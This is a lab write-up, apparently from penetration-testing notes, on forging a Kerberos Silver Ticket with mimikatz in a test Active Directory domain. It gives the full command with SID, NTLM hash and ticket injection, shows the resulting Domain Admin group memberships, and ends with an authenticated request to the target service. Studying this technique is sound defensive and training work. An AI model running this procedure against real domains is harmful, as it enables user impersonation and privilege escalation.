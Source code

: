 ```yaml
---
description: Credential Access
---
```


# Kerberos - Silver Tickets

This lab looks at the technique of forging a cracked TGS Kerberos ticket in order to impersonate another user and escalate privileges from the perspective of a service the TGS was cracked for.

This lab builds on the explorations in Kerberoasting where a TGS ticket got cracked.

## Execution <a id="execution"></a>

I will be using mimikatz to create a Kerberos Silver Ticket - forging/rewriting the cracked ticket with some new details that benefit me as an attacker.

Below is a table with values supplied to mimikatz explained and the command itself:

| Argument | Notes |
| :--- | :--- |
| /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 | SID of the current user who is forging the ticket. Retrieved with `whoami /user` |
| /target:dc-mantvydas.offense.local | server hosting the attacked service for which the TGS ticket was cracked |
| /service:http | service type being attacked |
| /rc4:a87f3a337d73085c45f9416be5787d86 | NTLM hash of the password the TGS ticket was encrypted with. `Passw0rd` in our case |
| /user:beningnadmin | Forging the user name. This is the user name that will appear in the windows security logs - fun. |
| /id:1155 | Forging user's RID - fun |
| /ptt | Instructs mimikatz to inject the forged ticket to memory to make it usable immediately |

Getting our user's SID as explained in the first step in the above table:![](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LKOW-TxXGxgVJt_NsoH%2F-LKOT31MW-F9XQ9dl177%2Fsilver-tickets-whoami.png?alt=media&token=c5db8357-b6f6-4f28-81b0-fda6b5fd5655)Getting a user's SID

Issuing the final mimikatz command to create our forged \(silver\) ticket:

```text
attacker@victimmimikatz # kerberos::golden /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 /domain:offense.local /ptt /id:1155 /target:dc-mantvydas.offense.local /service:http /rc4:a87f3a337d73085c45f9416be5787d86 /user:beningnadmin
```

Checking available tickets in memory with `klist` - note how the ticket shows our forged username `benignadmin` and a forged user id:![](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LKOW-TxXGxgVJt_NsoH%2F-LKOTZW-kHv8wYkCCzlI%2Fsilver-tickets-generated-ticket.png?alt=media&token=89480823-2f51-48a9-b5e0-322f814925fc)

Note in the above mimikatz window the `Group IDs` which our fake user `benignadmin` is now a member of due to the forged ticket:

| GID | Group Name |
| :--- | :--- |
| 512 | Domain Admins |
| 513 | Domain Users |
| 518 | Schema Admins |
| 519 | Enterprise Admins |
| 520 | Group Policy Creator Owners |

![](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LKOW-TxXGxgVJt_NsoH%2F-LKOVuIT9gVZ7i2Wlu2g%2Fsilver-tickets-groups.png?alt=media&token=7250ade2-eae1-43e2-b7d3-86037bd8c095)

Initiating a request to the attacked service with a TGS ticket - note that the authentication is successfull:

```text
attacker@victimInvoke-WebRequest -UseBasicParsing -UseDefaultCredentials http://dc-mantvydas.offense.local
```

![](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LKOW5yEVyaRsq-SW2bf%2F-LKOWwBBzah8KLDwu1gF%2Fsilver-tickets-httprequest.png?alt=media&token=c3d8bcd6-cf86-4f79-8f20-e001ab2fa2de)

